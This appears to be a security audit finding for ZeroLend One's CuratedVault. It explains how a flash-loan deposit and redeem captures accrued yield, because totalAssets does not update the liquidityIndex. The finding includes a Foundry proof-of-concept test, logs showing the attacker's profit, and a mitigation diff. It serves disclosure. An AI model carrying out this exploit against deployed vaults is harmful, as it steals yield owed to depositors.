 Careful Fleece Pike

High

# An attacker can hijack the `CuratedVault`'s matured yield

### Summary

`CuratedVault#totalAssets` does not update pool's `liquidityIndex` at the beginning will cause the matured yield to be distributed to users that do not supply to the vault before the yield accrues. An attacker can exploit this to hijack the `CuratedVault`'s matured yield.

### Root Cause

`CuratedVault#totalAssets` does not update pool's `liquidityIndex` at the beginning

https://github.com/sherlock-audit/2024-06-new-scope/blob/c8300e73f4d751796daad3dadbae4d11072b3d79/zerolend-one/contracts/core/vaults/CuratedVault.sol#L368-L372

```solidity
  function totalAssets() public view override returns (uint256 assets) {
    for (uint256 i; i < withdrawQueue.length; ++i) {
      assets += withdrawQueue[i].getBalanceByPosition(asset(), positionId);
    }
  }
```

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

Let's have:
- A vault has a total assets of `totalAssets`
- `X` amount of yield is accrued from `T1` to `T2`

1. The attacker takes a flash loan of `flashLoanAmount`
2. The attacker deposits `flashLoanAmount` at `T2` to the vault. Since `CuratedVault#totalAssets` does not update pool's `liquidityIndex`, the minted shares are calculated based on the total assets at `T1`.
3. The attacker redeems all the shares and benefits from `X` amount of yield.
4. The attacker repays the flash loan.

The cost of this attack is gas fee and flash loan fee.

### Impact

The attacker hijacks `flashLoanAmount / (flashLoanAmount + totalAssets)` percentage of `X` amount of yield.

`X` could be a considerable amount when:
- The pool has high interest rate.
- `T2 - T1` is large. This is the case for the pool with low interactions.

When `X` is a considerable amount, the amount of hijacked funds could be greater than the cost of the attack, then the attacker will benefit from the attack.

### PoC

Due to a bug in `PositionBalanceConfiguration#getSupplyBalance` that we submitted in a different issue, fix the `getSupplyBalance` function before running the PoC

`core/pool/configuration/PositionBalanceConfiguration.sol`

```diff
library PositionBalanceConfiguration {
  function getSupplyBalance(DataTypes.PositionBalance storage self, uint256 index) public view returns (uint256 supply) {
-   uint256 increase = self.supplyShares.rayMul(index) - self.supplyShares.rayMul(self.lastSupplyLiquidtyIndex);
-   return self.supplyShares + increase;
+   return self.supplyShares.rayMul(index);
  }
}
```

Run command: `forge test --match-path test/PoC/PoC.t.sol`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {console} from 'lib/forge-std/src/Test.sol';
import '../forge/core/vaults/helpers/IntegrationVaultTest.sol';

contract ERC4626Test is IntegrationVaultTest {
  address attacker = makeAddr('attacker');

  function setUp() public {
    _setUpVault();
    _setCap(allMarkets[0], CAP);
    _sortSupplyQueueIdleLast();

    oracleB.updateRoundTimestamp();
    oracle.updateRoundTimestamp();

    uint256 vaultAssets = 10 ether;

    loanToken.mint(supplier, vaultAssets);
    vm.prank(supplier);
    vault.deposit(vaultAssets, supplier);
    
    vm.prank(attacker);
    loanToken.approve(address(vault), type(uint256).max);
  }

  function testDeposit() public {
    collateralToken.mint(borrower, type(uint128).max);

    vm.startPrank(borrower);
    allMarkets[0].supplySimple(address(collateralToken), borrower, type(uint128).max, 0);
    allMarkets[0].borrowSimple(address(loanToken), borrower, 8 ether, 0);

    skip(100 days);

    oracleB.updateRoundTimestamp();
    oracle.updateRoundTimestamp();

    uint256 vaultAssetsBefore = vault.totalAssets();

    console.log("Vault's assets before updating reserve: %e", vaultAssetsBefore);

    uint256 snapshot = vm.snapshot();

    allMarkets[0].forceUpdateReserve(address(loanToken));
    console.log("Vault's accrued yield: %e", vault.totalAssets() - vaultAssetsBefore);

    vm.revertTo(snapshot);

    uint256 flashLoanAmount = 100 ether;

    loanToken.mint(attacker, flashLoanAmount);

    vm.startPrank(attacker);
    uint256 shares = vault.deposit(flashLoanAmount, attacker);
    vault.redeem(shares, attacker, attacker);
    vm.stopPrank();

    console.log("Attacker's profit: %e", loanToken.balanceOf(attacker) - flashLoanAmount);
  }
}
```

Logs:

```bash
  Vault's assets before updating reserve: 1e19
  Vault's accrued yield: 5.62832773326440941e17
  Attacker's profit: 5.11666157569491763e17
```

Although the yield accrued, the vault's assets before updating reserve is still `1e19`.

### Mitigation

Update pool's `liquidityIndex` at the beginning of `CuratedVault#totalAssets` 

```diff
  function totalAssets() public view override returns (uint256 assets) {
    for (uint256 i; i < withdrawQueue.length; ++i) {
+     withdrawQueue[i].forceUpdateReserve(asset());
      assets += withdrawQueue[i].getBalanceByPosition(asset(), positionId);
    }
  }
```